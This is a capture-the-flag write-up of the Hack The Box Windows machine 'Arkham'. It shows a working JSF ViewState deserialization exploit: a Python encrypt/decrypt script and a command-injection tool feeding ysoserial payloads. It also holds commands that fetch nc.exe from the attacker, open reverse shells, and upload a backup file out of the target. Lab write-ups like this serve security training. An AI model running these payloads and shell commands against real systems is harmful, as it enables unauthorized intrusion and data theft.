

For me, this box was a bit more challenging than any of the others I have done on Hack The Box. I usually only go for the Linux boxes, since I'm more familiar on those machines. But I will never learn to deal with Windows machines if I never practice them. So here we go!


## Nmap

As always, we start off with the `nmap` scan:

```console
root@kali:~/HTB/Arkham# nmap -A -p- -oN nmap.out 10.10.10.130
```
```plaintext
Nmap scan report for 10.10.10.130
Host is up (0.030s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Apache Tomcat 8.5.37
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Mask Inc.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -25s, deviation: 0s, median: -25s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-08-05 22:30:50
|_  start_date: N/A

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   32.40 ms 10.10.12.1
2   32.43 ms 10.10.10.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.70 seconds
```

From the IIS web service version we can conclude that this is a *Windows 10* or *Windows Server 2016 +*  machine (a quick google on the IIS version). 

## Initial enumeration

It looks like we have some web services and `smb` running on the machine. We will first take a look at the web pages.

### Web

Let's start off with the port `80` page. `http://10.10.10.130/` looks like this:


It is the default IIS front page. If we run `gobuster` on this we will not find any directories or files.

```console
root@kali:~/HTB/Arkham# gobuster dir -u http://10.10.10.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster.out -x php,txt,html
```

So that is a dead end. Let's go for port `8080`. From the `nmap` scan we can see that `Apache Tomcat 8.5.37` running on this port. [Tomcat](http://tomcat.apache.org/) is a web service that runs JavaServer Pages, Java Servlet and WebSocket. We might be able to get command execution on this if we manage to exploit it. The webpage `http://10.10.10.130:8080/` looks like this:


We can again run gobuster on this url, but all we find are a bunch of assets directories for javascript files and stylesheets. 

```console
root@kali:~/HTB/Arkham# gobuster dir -u http://10.10.10.130:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster8080.out -x html,php,txt
```
```plaintext
[...]
/index.html (Status: 200)
/images (Status: 302)
/css (Status: 302)
/js (Status: 302)
/fonts (Status: 302)
[...]
```

But if you navigate the web page manually, you will see that there is one other page accessable: `http://10.10.10.130:8080/userSubscribe.faces` (through the *Subscription* navigation button). If we turn on `burp` and see what the HTTP request does when submitting the form, then maybe we can exploit this. The `POST` request of the form is:

```plaintext
POST /userSubscribe.faces HTTP/1.1
Host: 10.10.10.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.130:8080/userSubscribe.faces
Content-Type: application/x-www-form-urlencoded
Content-Length: 276
Cookie: JSESSIONID=20B8A090B34B9104580430EC2C3335A6
Connection: close
Upgrade-Insecure-Requests: 1

j_id_jsp_1623871077_1%3Aemail=asdfasd%40lkjjads.com&j_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j_id_jsp_1623871077_1_SUBMIT=1&javax.faces.ViewState=wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RRq92xChm0PH70KtDtngjDm0mNzA9qHjYerxo0jW7zu1EIul4mvguBMDgltZmZsD7u%2BnhtQ%3D
```

It looks like it is running *JavaServer Faces*. If we do a quick google search on *JavaServer Faces exploit*, we find several blog posts of exploits in the serialization of the `ViewState` (for instance [this one](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a) or [this one](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)). If we `base64` decode the `ViewState` parameter, we only get gibberish:

```console
root@kali:~/HTB/Arkham# echo -n wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RRq92xChm0PH70KtDtngjDm0mNzA9qHjYerxo0jW7zu1EIul4mvguBMDgltZmZsD7u+nhtQ= | base64 -d
```
```plaintext
z4b#-F!e)x8~r\LECB9aH;k[Y
```

It looks like the `ViewState` is encrypted :( ... Another dead end  <small>(for now)</small> .

### SMB

To enumerate the `smb` service, we can use the tool called `smbmap`. This lists the shares that are accessible throught `smb`. For some reason, if you don't specify a username (`-u`), it won't show you the shares. The username does not have to be a valid one.

```console
root@kali:~/HTB/Arkham# smbmap -u asdf -H 10.10.10.130 -r --depth 1
```
```plaintext
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: 10.10.10.130                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	BatShare                                          	READ ONLY
	./                                                 
	dr--r--r--                0 Sun Feb  3 14:04:13 2019	.
	dr--r--r--                0 Sun Feb  3 14:04:13 2019	..
	fr--r--r--          4046695 Sun Feb  3 14:04:13 2019	appserver.zip
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	./                                                 
	fr--r--r--                3 Mon Jan  1 00:19:32 1601	InitShutdown
	[...]
	fr--r--r--                1 Mon Jan  1 00:19:32 1601	iislogpipea86c4d65-c5c8-4ce8-9c52-67150ff2e610
	Users                                             	READ ONLY
	./                                                 
	dw--w--w--                0 Sun Feb  3 14:24:10 2019	.
	dw--w--w--                0 Sun Feb  3 14:24:10 2019	..
	dw--w--w--                0 Fri Feb  1 03:49:06 2019	Default
	fr--r--r--              174 Fri Feb  1 17:10:07 2019	desktop.ini
	dr--r--r--                0 Sun Feb  3 14:24:19 2019	Guest

```

`appserver.zip` looks interesting. Let's download and unzip that to see what it is. 

```console
root@kali:~/HTB/Arkham# smbclient //10.10.10.130/BatShare
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb  3 14:00:10 2019
  ..                                  D        0  Sun Feb  3 14:00:10 2019
  appserver.zip                       A  4046695  Fri Feb  1 07:13:37 2019

                5158399 blocks of size 4096. 2006365 blocks available
smb: \> get appserver.zip 

root@kali:~/HTB/Arkham# unzip appserver.zip
Archive:  appserver.zip
  inflating: IMPORTANT.txt           
  inflating: backup.img 
```

There are two files inside: `IMPORTANT.txt` and `backup.img`.

```console
root@kali:~/HTB/Arkham# cat IMPORTANT.txt 
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce
```

```console
root@kali:~/HTB/Arkham# file backup.img 
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```

It looks like `backup.img` is encrypted using `LUKS`. We can try to mount this:

```console
root@kali:~/HTB/Arkham# mkdir luks
root@kali:~/HTB/Arkham# cryptsetup open backup.img luks --type luks
Enter passphrase for backup.img: 
No key available with this passphrase.
```

Hmm.. Too bad. We don't know the password and it is not a default one. We can try to crack this using either hashcat or [bruteforce-luks](https://github.com/glv2/bruteforce-luks). My VM was only able to check around 2.4 hashes per second. That is going to take a while. Maybe we can reduce the amount of phrases in the wordlist by manually filtering on some *batman* names:

```console
root@kali:~/HTB/Arkham# cat /usr/share/wordlists/rockyou.txt | grep -i "bruce\|joker\|batman\|robin" > mylist.txt
```
```console
root@kali:~/HTB/Arkham# wc -l mylist.txt
6494 mylist.txt
```
```console
root@kali:~/HTB/Arkham# bruteforce-luks -f mylist.txt -t 4 -v 5 backup.img
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.
[...]
Tried passwords: 213
Tried passwords per second: 2.505882
Last tried password: batman34

Password found: batmanforever
```

Yeah! Here we go. That didn't take that long. We can now mount this file system in our folder. There also was an easier way to get the files using `binwalk --extract backup.img`. If you use `strings -n 10 backup.img` you can see that you were already able to read files from the image file. Well, cracking passwords is also fun right?

```console
root@kali:~/HTB/Arkham# cryptsetup open backup.img lukss --type luks
Enter passphrase for backup.img: 
root@kali:~/HTB/Arkham# mount /dev/mapper/luks luks
root@kali:~/HTB/Arkham# cd luks
root@kali:~/HTB/Arkham/luks# ls
lost+found  Mask
root@kali:~/HTB/Arkham/luks# cd Mask
root@kali:~/HTB/Arkham/luks/Mask# ls
docs  joker.jpg  me.jpg  mycar.jpg  robin.jpeg  tomcat-stuff
root@kali:~/HTB/Arkham/luks/Mask# cd tomcat-stuff/
root@kali:~/HTB/Arkham/luks/Mask/tomcat-stuff# ls
context.xml  faces-config.xml  jaspic-providers.xml  MANIFEST.MF  server.xml  tomcat-users.xml  web.xml  web.xml.bak
```

It looks like there are a bunch of `Tomcat` config files on here. The most important one is `web.xml.bak`. It contains some secret phrases. Can these be used to decrypt and encrypt `ViewState`s? Let's find out.

```xml
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
[...]
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
```

## Exploit to RCE

From this point on, I started writing a `python` script that would decrypt en encrypt `ViewState` serialization data for me. For a description of how the encryption works, you can go [this doc page](http://myfaces.apache.org/shared12/myfaces-shared-core/apidocs/org/apache/myfaces/shared/util/StateUtils.html). By default it uses `DES` in `ECB` mode for encryption with `HMACSHA1` for `MAC` and `PKCS5Padding` for padding if needed. My first python script looked as follows:

### First working script

```python
import sys
import hmac
import hashlib
import binascii
from Crypto.Cipher import DES
from base64 import b64decode, b64encode

HMACSHA1_SIZE = 20
BLOCK_SIZE = 8

def tohex(s):
    return binascii.hexlify(s)

def make_hmac(message, key):
    digest = hmac.new(key, message, hashlib.sha1)
    signature = digest.digest()
    return signature

def check_hmac(message, hmac, key):
    verify_hmac = make_hmac(message, key)
    if hmac != verify_hmac:
        return False
    return True

def pad(plain_text):
    number_of_bytes_to_pad = (BLOCK_SIZE - len(plain_text) % BLOCK_SIZE) % BLOCK_SIZE
    ascii_string = chr(number_of_bytes_to_pad)
    padding_str = (number_of_bytes_to_pad * ascii_string).encode('utf-8')
    padded_plain_text =  plain_text + padding_str
    return padded_plain_text

def decrypt(key, s):
    key_dec = b64decode(key)
    data_dec = b64decode(s)
    hmac = data_dec[-HMACSHA1_SIZE:]
    ciphertext = data_dec[:-HMACSHA1_SIZE]
    des = DES.new(key_dec, DES.MODE_ECB)
    plaintext = des.decrypt(ciphertext)
    if not check_hmac(ciphertext, hmac, key_dec):
        print("Invalid HMAC")
    sys.stdout.write(plaintext)

def encrypt(key, filename):
    with open(filename, 'rb') as f:
        plaintext = f.read()
        key_dec = b64decode(key)
        plaintext = pad(plaintext)
        des = DES.new(key_dec, DES.MODE_ECB)
        ciphertext = des.encrypt(plaintext)
        hmac = make_hmac(ciphertext, key_dec)
        if not check_hmac(ciphertext, hmac, key_dec):
            print("Invalid HMAC")
        message = ciphertext + hmac
        message_b64 = b64encode(message)
        sys.stdout.write(message_b64.decode('utf-8'))

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print("Usage: python viewstate.py decrypt <key> <message>")
        print("       python viewstate.py encrypt <key> <filename>")
        exit(1)
    if sys.argv[1] == 'decrypt':
        decrypt(sys.argv[2], sys.argv[3])
    if sys.argv[1] == 'encrypt':
        encrypt(sys.argv[2], sys.argv[3])
    exit(1)
```

```console
root@kali:~/HTB/Arkham# python viewstate.py decrypt SnNGOTg3Ni0= wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RXtNO1NI/Gme70KtDtngjDm0mNzA9qHjYerxo0jW7zu1DWIHlJqY3Fedt5UA7dKm1/Z7jZk=
```
```plaintext
ur[Ljava.lang.Object;Xs)lxpt4pt/userSubscribe.jsp
```

It looks like it is working. Great! What now ... ?

We need some payload as the java serialization object that we pass to the webserver. I have found a tool called [ysoserial](https://github.com/frohoff/ysoserial). From this point on, I had to find the correct payload type and settled with `CommonsCollections5`, since this one worked for me.

```console
root@kali:~/HTB/Arkham# java -jar /opt/ysoserial/ysoserial.jar CommonsCollections5 "ping -n 10 10.10.13.251" > a.file
root@kali:~/HTB/Arkham# python3 viewstate.py encrypt SnNGOTg3Ni0= a.file | xclip -sel clipboard
```

We can then paste this in burp send the request, while doing a `tcpdump` on our own box. Don't forget to urlencode the payload in burp! Don't worry about the `500` HTTP errors.



```console
root@kali:~/HTB/Arkham# tcpdump -i any icmp
```

```plaintext
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
[...]
21:49:26.854258 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 131, length 40
21:49:27.869236 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 132, length 40
21:49:27.869299 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 132, length 40
21:49:28.873916 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 133, length 40
21:49:28.873978 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 133, length 40
21:49:29.876860 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 134, length 40
[...]
```

That looks like `RCE` to me! But no reverse shell yet. Before I went further, I wanted to setup a simple `cmdinjection.py` so I don't have to manually repeat all the steps above. This script serves as some kind of terminal (but without output, since we are dealing with blind injection).

Command tool:

```python
#!/usr/bin/env python3
import requests
from os import system
import sys
import subprocess
import hmac
import hashlib
import binascii
from Crypto.Cipher import DES
from base64 import b64decode, b64encode
from cmd import Cmd

B64KEY = 'SnNGOTg3Ni0='
HMACSHA1_SIZE = 20
BLOCK_SIZE = 8

def tohex(s):
    return binascii.hexlify(s)

def make_hmac(message, key):
    digest = hmac.new(key, message, hashlib.sha1)
    signature = digest.digest()
    return signature

def check_hmac(message, hmac, key):
    verify_hmac = make_hmac(message, key)
    if hmac != verify_hmac:
        return False
    return True

def pad(plain_text):
    number_of_bytes_to_pad = (BLOCK_SIZE - len(plain_text) % BLOCK_SIZE) % BLOCK_SIZE
    ascii_string = chr(number_of_bytes_to_pad)
    padding_str = (number_of_bytes_to_pad * ascii_string).encode('utf-8')
    padded_plain_text =  plain_text + padding_str
    return padded_plain_text

def decrypt(key, s):
    key_dec = b64decode(key)
    data_dec = b64decode(s)
    hmac = data_dec[-HMACSHA1_SIZE:]
    ciphertext = data_dec[:-HMACSHA1_SIZE]
    des = DES.new(key_dec, DES.MODE_ECB)
    plaintext = des.decrypt(ciphertext)
    if not check_hmac(ciphertext, hmac, key_dec):
        print("Invalid HMAC")
    sys.stdout.write(plaintext)

def encrypt(key, plaintext):
    key_dec = b64decode(key)
    plaintext = pad(plaintext)
    des = DES.new(key_dec, DES.MODE_ECB)
    ciphertext = des.encrypt(plaintext)
    hmac = make_hmac(ciphertext, key_dec)
    if not check_hmac(ciphertext, hmac, key_dec):
        print("Invalid HMAC")
    message = ciphertext + hmac
    message_b64 = b64encode(message)
    return message_b64

class Terminal(Cmd):
    prompt = 'serial# '

    def default(self, args):
        runcmd(args)

def runcmd(cmd):
    process = subprocess.Popen(['java', '-jar', '/opt/ysoserial/ysoserial.jar', 'CommonsCollections5', cmd], stdout=subprocess.PIPE)
    out, err = process.communicate()
    payload = encrypt(B64KEY, out)
    resp = requests.post('http://10.10.10.130:8080/userSubscribe.faces',
            data={
                'j_id_jsp_1623871077_1:email': 'asdf@kjdaslf.com',
                'j_id_jsp_1623871077_1:submit': 'SIGN UP',
                'j_id_jsp_1623871077_1_SUBMIT': '1',
                'javax.faces.ViewState': payload
                }
            )
    print('Command sent')

term = Terminal()
term.cmdloop()
```

Let's try to get `netcat` on the machine:

```console
root@kali:~/HTB/Arkham# mkdir www
root@kali:~/HTB/Arkham# cd www
root@kali:~/HTB/Arkham/www# cp /usr/share/windows-binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```console
root@kali:~/HTB/Arkham# ./cmdinjection.py
serial# curl 10.10.13.251/nc.exe -O nc.exe
Command sent
serial# nc 10.10.13.251 1234 -e cmd.exe
Command sent
```

The tcp listener on our own machine:

```console
root@kali:~/HTB/Arkham# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.13.251] from (UNKNOWN) [10.10.10.130] 49702
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tomcat\apache-tomcat-8.5.37\bin>
[...]
C:\Users\Alfred\Desktop>dir   
dir
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of C:\Users\Alfred\Desktop

02/03/2019  09:33 AM    <DIR>          .
02/03/2019  09:33 AM    <DIR>          ..
02/03/2019  09:33 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)   8,652,840,960 bytes free
```

See how easy it is once you've written a command injection script! That is how you get `user` on Arkham.

## Root

From this point on I started enumerating the machine. I found an interesting file under `C:\Users\Alfred\Downloads\backups`. I copied the file over using [this SimpleHTTPServer](https://gist.github.com/UniIsland/3346170) with POST functionality for file uploads. 

```plaintext
C:\Users\Alfred\Downloads\backups>curl -X POST -F "file=@backup.zip" 10.10.15.151
curl -X POST -F "file=@backup.zip" 10.10.15.151
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  121k    0     0  100  121k      0   121k  0:00:01  0:00:01 --:--:-- 95959
```

If you unzip the file, you'll get a file called `alfred@arkham.local.ost`, which is a mail folder file. You can import this in almost all mail clients. I used `evolution`. 


In the drafts folder, there is an email that has this attachment:


That looks like login credentials.

```plaintext
C:\Users\Alfred\Downloads\backups>net user Batman
User name                    Batman
Full Name                                           
[...]
Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
```

As we can see here, `Batman` is a member of `Administrators`. That is good. We can try to use `runas` command to run commands as `Batman`, but for some reason the command exists silently. We can try to use `powershell` to do the same:

First start a listener on your local machine:

```console
root@kali:~/htb/arkham# nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.13.171] from (UNKNOWN) [10.10.10.130] 49784
```

Then use `Invoke-Command` to execute a reverse shell as `Batman`.

```plaintext
C:\tomcat\apache-tomcat-8.5.37\bin>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tomcat\apache-tomcat-8.5.37\bin> $username = "Batman"
PS C:\tomcat\apache-tomcat-8.5.37\bin> $password = "Zx^#QZX+T!123"
PS C:\tomcat\apache-tomcat-8.5.37\bin> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\tomcat\apache-tomcat-8.5.37\bin> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\tomcat\apache-tomcat-8.5.37\bin> Invoke-Command -Credential $credential -ComputerName ARKHAM -ScriptBlock {cmd.exe /c "C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.13.171 1235 -e cmd.exe"}       
```

Nice!

```plaintext
C:\Users\Batman\Documents>whoami
whoami
arkham\batman
```

```plaintext
C:\Users\Batman\Documents>cd ../../Administrator
cd ../../Administrator
Access is denied.
```

For some reason, we cant access the Administrator folder even as `Batman`. But we can mount the `C` drive as `Batman`:

```plaintext
C:\Users\Batman\Documents>net use H: \\10.10.10.130\C$
net use H: \\10.10.10.130\C$
The command completed successfully.
C:\Users\Batman\Documents>H:
H:\>cd Users\Administrator\Desktop
H:\Users\Administrator\Desktop>type root.txt
[...]
```

That is how we get root on Arkham.

In my opinion, user was more fun than root, but overall it was a fun box. Thanks to [MinatoTW](https://www.hackthebox.eu/home/users/profile/8308), the creator of this box.


